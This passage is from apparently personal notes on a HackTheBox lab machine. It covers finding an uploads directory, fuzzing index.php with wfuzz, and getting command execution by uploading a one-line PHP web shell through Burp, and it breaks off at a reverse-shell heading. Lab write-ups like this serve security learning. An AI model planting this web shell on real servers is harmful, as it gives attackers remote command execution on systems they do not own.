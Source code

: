 Now we have to figure out where the file uploaded to. 

Review gobuster output for the /images url and we have an /uploads directory 

Navigate to this directory 
![[HackTheBox/Linux/attachments/Pasted image 20250509212910.png]]
- we get code execution!!

-------------------------------
## BONUS FUZZING
### Fuzzing /index.php

```
wfuzz -u 'http://10.10.10.185/index.php?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/api/actions.txt
```

Then add --hl 59 to hide length 

![[HackTheBox/Linux/attachments/Pasted image 20250509213547.png]]
- nothing

Trying the common.txt wordlist as well. 

-------------------------

There was a typo in the php shell 
```
<?php system($_REQUEST['PleaseSubscribe']);  ?>
```

Modify Burp request and resend the shell to the server :)

Got code execution 
![[HackTheBox/Linux/attachments/Pasted image 20250509214225.png]]

Need to uncheck the File Extension in Intercept Client Requests to be able to intercept "images"

![[HackTheBox/Linux/attachments/Pasted image 20250509214348.png]]

Change the request type to a POST because there are less bad characters
![[HackTheBox/Linux/attachments/Pasted image 20250509214436.png]]

Whoami Request 
![[HackTheBox/Linux/attachments/Pasted image 20250509214540.png]]

Response
![[HackTheBox/Linux/attachments/Pasted image 20250509214559.png]]

### Send Reverse Shell 

Create reverse shell request within Burp 
